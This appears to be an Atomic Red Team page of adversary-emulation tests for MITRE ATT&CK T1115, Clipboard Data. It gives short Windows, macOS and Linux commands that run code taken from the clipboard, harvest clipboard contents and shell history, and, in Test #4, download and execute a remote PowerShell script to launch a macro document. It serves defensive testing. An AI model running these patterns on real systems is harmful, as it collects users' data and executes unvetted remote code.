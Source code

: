 # T1115 - Clipboard Data
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1115)
<blockquote>Adversaries may collect data stored in the clipboard from users copying information within or between applications. 

In Windows, Applications can access clipboard data by using the Windows API.(Citation: MSDN Clipboard) OSX provides a native command, <code>pbpaste</code>, to grab clipboard contents.(Citation: Operating with EmPyre)</blockquote>

## Atomic Tests

- [Atomic Test #1 - Utilize Clipboard to store or execute commands from](#atomic-test-1---utilize-clipboard-to-store-or-execute-commands-from)

- [Atomic Test #2 - Execute Commands from Clipboard using PowerShell](#atomic-test-2---execute-commands-from-clipboard-using-powershell)

- [Atomic Test #3 - Execute commands from clipboard](#atomic-test-3---execute-commands-from-clipboard)

- [Atomic Test #4 - Collect Clipboard Data via VBA](#atomic-test-4---collect-clipboard-data-via-vba)

- [Atomic Test #5 - Add or copy content to clipboard with xClip](#atomic-test-5---add-or-copy-content-to-clipboard-with-xclip)


<br/>

## Atomic Test #1 - Utilize Clipboard to store or execute commands from
Add data to clipboard to copy off or execute commands from.

**Supported Platforms:** Windows


**auto_generated_guid:** 0cd14633-58d4-4422-9ede-daa2c9474ae7






#### Attack Commands: Run with `command_prompt`! 


```cmd
dir | clip
echo "T1115" > %temp%\T1115.txt
clip < %temp%\T1115.txt
```

#### Cleanup Commands:
```cmd
del %temp%\T1115.txt >nul 2>&1
```





<br/>
<br/>

## Atomic Test #2 - Execute Commands from Clipboard using PowerShell
Utilize PowerShell to echo a command to clipboard and execute it

**Supported Platforms:** Windows


**auto_generated_guid:** d6dc21af-bec9-4152-be86-326b6babd416






#### Attack Commands: Run with `powershell`! 


```powershell
echo Get-Process | clip
Get-Clipboard | iex
```






<br/>
<br/>

## Atomic Test #3 - Execute commands from clipboard
Echo a command to clipboard and execute it

**Supported Platforms:** macOS


**auto_generated_guid:** 1ac2247f-65f8-4051-b51f-b0ccdfaaa5ff






#### Attack Commands: Run with `bash`! 


```bash
echo ifconfig | pbcopy
$(pbpaste)
```






<br/>
<br/>

## Atomic Test #4 - Collect Clipboard Data via VBA
This module copies the data stored in the user's clipboard and writes it to a file, $env:TEMP\atomic_T1115_clipboard_data.txt

**Supported Platforms:** Windows


**auto_generated_guid:** 9c8d5a72-9c98-48d3-b9bf-da2cc43bdf52





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| ms_product | Maldoc application Word | String | Word|


#### Attack Commands: Run with `powershell`! 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Set-Clipboard -value "Atomic T1115 Test, grab data from clipboard via VBA"
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroFile "PathToAtomicsFolder\T1115\src\T1115-macrocode.txt" -officeProduct "Word" -sub "GetClipboard"
```

#### Cleanup Commands:
```powershell
Remove-Item "$env:TEMP\atomic_T1115_clipboard_data.txt" -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Microsoft #{ms_product} must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
```




<br/>
<br/>

## Atomic Test #5 - Add or copy content to clipboard with xClip
Utilize Linux Xclip to copy history and place in clipboard then output to a history.txt file. Successful execution will capture history and output to a file on disk.

**Supported Platforms:** Linux


**auto_generated_guid:** ee363e53-b083-4230-aff3-f8d955f2d5bb






#### Attack Commands: Run with `sh`! 


```sh
apt install xclip -y
history | tail -n 30 | xclip -sel clip
xclip -o > history.txt
```






<br/>
